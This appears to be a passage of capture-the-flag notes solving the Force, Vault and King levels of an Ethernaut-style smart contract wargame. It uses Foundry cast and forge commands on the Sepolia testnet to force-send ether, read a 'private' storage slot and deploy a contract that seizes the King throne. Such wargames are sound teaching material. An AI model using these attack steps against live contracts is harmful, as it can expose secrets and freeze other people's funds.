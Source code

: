 ### Attack

```shell
cast mktx \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --value 1wei \
    --interactive \
    "$ADDRESS_AttackForce" \
    "attack(address)" "$ADDRESS_Force"
```

---

## Vault

### Attack

```shell
cast storage --rpc-url $SEPOLIA_RPC_URL "0x..." 1
```

same as

```js
await web3.eth.getStorageAt(contract.address, 1) 
```

---

## King

### Test

```shell
$ forge test -vvv --match-path "test/AttackKing*"
```

### Attack

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --interactive \
    src/AttackKing.sol:AttackKing
$ cast send \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --value 1000001gwei \
    --interactive \
    "$ADDRESS_AttackKing" \
    "attack(address)" "$ADDRESS_King"
```

---
